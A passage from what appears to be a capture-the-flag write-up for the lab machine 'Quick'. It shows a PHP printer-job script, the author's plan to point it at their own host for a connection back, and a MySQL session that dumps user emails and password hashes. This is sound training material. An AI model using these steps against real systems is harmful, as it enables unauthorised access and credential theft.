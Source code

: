 ```php
                        $port=$row["port"];
                        try
                        {
                                $connector = new NetworkPrintConnector($ip,$port);
                                sleep(0.5); //Buffer for socket check
                                $printer = new Printer($connector);
                                $printer -> text(file_get_contents("/var/www/jobs/".$file));
                                $printer -> cut();
                                $printer -> close();
                                $message="Job assigned";
                                unlink("/var/www/jobs/".$file);
                        }
                        catch(Exception $error) 
                        {
                                $error="Can't connect to printer.";
                                unlink("/var/www/jobs/".$file);
                        }
                }
                else
                {
                        $error="Couldn't find printer.";
                }
        }
```

This looked to me like I could make a file in the `/jobs` folder \(where I was able to write\), write to the file my IP and port, then the `jobs.php` will make a connection to my computer thinking it is trying to print. The only catch is that whoever triggers the print needs to be logged in. I felt that I needed to check the database to check for further credentials.

```sql
sam@quick:/var/www/html$ mysql -u db_adm -p quick
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 71
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show tables;
+-----------------+
| Tables_in_quick |
+-----------------+
| jobs            |
| tickets         |
| users           |
+-----------------+
3 rows in set (0.00 sec)

mysql> select * from users;
+--------------+------------------+----------------------------------+
| name         | email            | password                         |
+--------------+------------------+----------------------------------+
| Elisa        | elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| Server Admin | srvadm@quick.htb | e626d51f8fbfd1124fdea88396c35d05 |
```